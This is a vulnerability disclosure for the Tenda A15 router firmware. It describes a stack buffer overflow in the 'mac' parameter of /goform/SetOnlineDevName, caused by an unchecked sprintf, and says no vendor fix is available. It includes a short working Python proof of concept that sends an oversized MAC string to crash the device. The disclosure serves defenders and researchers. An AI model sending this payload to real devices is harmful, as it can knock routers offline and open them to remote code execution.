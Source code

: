 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "mac" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formSetDeviceName function, get the mac parameter via websGetVar and pass it to the second parameter of set_device_name

![1703731950136](image/SetOnlineDevName.mac.zh-cn/1703731950136.png)

In the set_device_name function, the dev_mac variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731977335](image/SetOnlineDevName.mac.zh-cn/1703731977335.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b'*0x500,
    "devName": 'devname1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Trigger details

See video content
<video src="https://raw.githubusercontent.com/yaoyue123/iot/main/Tenda/A15/mac.mp4" width="640" height="480" controls></video>

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
